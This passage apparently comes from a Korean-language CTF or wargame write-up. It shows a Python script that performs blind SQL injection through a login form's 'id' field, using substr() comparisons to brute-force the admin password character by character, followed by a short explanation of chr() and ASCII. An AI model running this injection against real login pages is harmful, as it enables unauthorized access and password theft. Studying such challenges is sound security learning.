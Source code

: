 ```python
            'id':f"admin' and substr(pw,{pwlength},1)={chr(i)}",
            # substr 함수 브루트포스 script
            'pw':'No Value'
            # 아무런 값
        }

        Urlrequest = requests.post(Url, data=data)

        if Urlrequest.text.find("Login succee!") > 0:
            print(chr(i),end='')
            # chr(i) 로 패스워드 줄바꿈 없이 출력

            AdminPassword += chr(i)
            # chr(i) 로 패스워드 저장

            check = 0
            # check를 0 으로 초기화시켜서 비밀번호 길이 체크
            break

    if check == 1:
        # 만약 check 가 1이라면 패스워드 길이 끝

        break
    check = 1
    # 위의 조건이 아니면 1로 초기화

print(AdminPassword)
# 합쳐진 패스워드 출력
```
<br>

## ascii 문자로 프루트 포스
<br>

* * *
for range 로 돌면서 사용한 chr 함수이다. 
<br><br>
간단하게 숫자를 아스키코드처럼 여겨 문자열로 변환

* * *
<br>

![ascii list](https://t1.daumcdn.net/cfile/tistory/216CE84C52694FF020)